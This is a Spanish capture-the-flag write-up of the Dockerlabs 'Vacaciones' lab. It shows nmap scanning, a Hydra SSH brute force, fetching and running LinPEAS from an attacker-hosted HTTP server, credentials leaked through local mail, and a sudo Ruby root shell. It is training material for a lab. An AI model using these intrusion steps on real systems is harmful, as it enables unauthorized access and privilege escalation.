



# Vacaciones - Dockerlabs (Muy Fácil)

## Introducción

Máquina de [Dockerlabs](https://dockerlabs.es/) centrada en fuerza bruta contra SSH y escalada de privilegios en Linux.

- **Dificultad:** Muy Fácil
- **IP objetivo:** 172.17.0.2

## Reconocimiento

### Descubrimiento de host (red Docker)

```
sudo arp-scan -I docker0 --localnet --resolve
```

### Escaneo de puertos

```
nmap -p- -sV -sC --open -sS -vvv -n -Pn --min-rate 5000 172.17.0.2
```

Resultado relevante:

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open  http    Apache httpd 2.4.29 (Ubuntu)
```

## Enumeración web

El código fuente de la página principal revela un comentario HTML con una pista de usuarios:

```
curl http://172.17.0.2
```

Resultado:
```
<!-- De: Juan Para: Camilo, te he dejado un correo es importante... -->
```

Esto confirma dos posibles usuarios del sistema: juan y camilo.

Fuzzing de directorios adicional:

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

Se encontró una carpeta /javascript/ (Status 301). Tras investigar la configuración de Apache dentro del sistema, se confirmó que corresponde a un alias estándar del sistema operativo (Alias /javascript /usr/share/javascript/) que sirve la librería jQuery sin modificaciones, sin relevancia para la explotación.

## Obtención de credenciales (primer usuario)

Con los usuarios candidatos confirmados por la pista web, se lanzó fuerza bruta dirigida contra cada uno:

```
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Resultado:
```
login: camilo   password: password1
```


La fuerza bruta contra juan no dio resultado en un tiempo razonable con el mismo diccionario.

## Acceso inicial

```
ssh camilo@172.17.0.2
```
Contraseña: password1

## Enumeración con acceso a camilo

```
sudo -l
```
Resultado: camilo no tiene permisos de sudo configurados.

Se revisaron binarios SUID, cronjobs y permisos de escritura sin encontrar ningún vector directo:

```
find / -perm -4000 -type f 2>/dev/null
cat /etc/crontab
find / -writable -type f 2>/dev/null
```

Ninguno arrojó resultados aprovechables. Se listaron los usuarios del sistema:

```
cat /etc/passwd
```

Se confirmaron tres usuarios con shell interactiva: juan (UID 1000), camilo (UID 1001) y pedro (UID 1002).

## Enumeración automatizada con LinPEAS

Ante la falta de un vector claro, se transfirió LinPEAS al contenedor usando un servidor HTTP temporal en la máquina atacante:

En la máquina atacante (Kali):
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000
```

Desde la sesión de camilo (el contenedor no tenía curl instalado, se usó wget):
```
wget http://172.17.0.1:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Entre la información recolectada, se identificó que camilo tiene correo local en formato Maildir en /var/mail/camilo.

## El correo: contraseña de juan

```
cat /var/mail/camilo/
```

Contenido relevante encontrado:
```
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Esta contraseña corresponde al usuario juan.

## Acceso como juan



```
ssh juan@172.17.0.2
```
Contraseña: 2k84dicb

## Escalada de privilegios

```
sudo -l
```

Resultado:
```
User juan may run the following commands on be1524740ef2:
    (ALL) NOPASSWD: /usr/bin/ruby
```

juan puede ejecutar Ruby como cualquier usuario (incluido root) sin contraseña. Ruby permite ejecutar comandos del sistema operativo desde su propio intérprete, heredando los privilegios del proceso que lo ejecuta:

```
sudo ruby -e 'exec "/bin/bash"'
```

Confirmación de acceso total:



```
whoami
```
Resultado: root

## Conclusión

Máquina con una cadena de explotación en varios saltos: pista narrativa en el código fuente de la web, fuerza bruta dirigida contra el primer usuario, enumeración automatizada con LinPEAS para descubrir un correo local, obtención de la contraseña del segundo usuario a partir de ese correo, y finalmente escalada de privilegios explotando un permiso de sudo mal configurado sobre Ruby. Buen ejercicio para reforzar:
- Lectura de comentarios HTML como vector de reconocimiento inicial
- Transferencia de herramientas a un objetivo sin acceso directo a internet, usando un servidor HTTP temporal
- Revisión de correo local del sistema como fuente de credenciales
- Mismo patrón de escalada de privilegios que en Obsession (herencia de privilegios en procesos hijos), esta vez a través de Ruby en lugar de vim
